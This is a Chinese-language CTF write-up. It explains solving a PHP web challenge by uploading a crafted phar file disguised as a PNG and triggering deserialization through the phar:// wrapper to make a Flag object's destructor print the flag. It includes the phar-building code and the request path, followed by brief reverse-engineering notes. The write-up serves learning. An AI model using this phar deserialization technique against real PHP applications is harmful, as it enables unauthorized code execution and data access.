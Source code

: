 其实我开这题只是想看看有没有别的小可爱传照片，但是其实看不到，恼火。

我实在做不出来，索性使用中国御剑扫描网站目录看到有一个robots.txt文件，点进去发现让我访问s3cr3t.php，立即访问。

其实正确做法是F12看到源码中有一段注释内含“机器人”字样想到访问robots.txt

进行代码审计，发现GET了一个`$interesting`变量，并将其作为文件路径，将文件内容读入到`$file`中。由于`file_get_contents()`的返回值不是空就是字符串，我们无法在返回值上做手脚。考虑搞一个在访问时触发的木马。

考虑构造一个`phar`文件，在读取时利用`phar://`伪协议直接执行其中代码。参照`0x04 最好的语言？`题，我们需要构造一个Flag类型对象并赋值好初始值写入`phar`中，利用`__destruct()`函数输出`flag`。

谷歌一个`phar`文件构造代码，直接进行一个使用：

```php
&lt;?php
    class Flag {
    public $a;
    protected $b;
    private $c;

    function __construct() {
        $this-&gt;a = &#39;1&#39;;
        $this-&gt;b = &#39;2&#39;;
        $this-&gt;c = &#39;3&#39;;
    }
    }
    $phar = new Phar(&#34;phar.phar&#34;);
    $phar-&gt;startBuffering();
    $phar-&gt;setStub(&#34;&lt;?php __HALT_COMPILER(); ?&gt;&#34;);
    $o = new Flag();
    $phar-&gt;setMetadata($o);
    $phar-&gt;stopBuffering();
?&gt;
```

执行得到phar.phar文件，后缀名改为`png`上传。

访问`/s3cr3t.php?interesting=phar://./upload/.../...png`，发现页面上出现了flag，好神奇哦。

## Reverse

### 	0x01 Hello Reverse

​		使用ida反编译后即可看到flag

### 	0x02 Where Are U

​		使用ida反编译后到处找找就有了

### 	0x03 吸/吸嘉嘉

​		反编译后发现程序将flag的每一位字母按位非(~)后与code数组比对。找到code数组，将每一位按位非之后就可以得到答案了。

​		我是手算的，我可能是弱智。
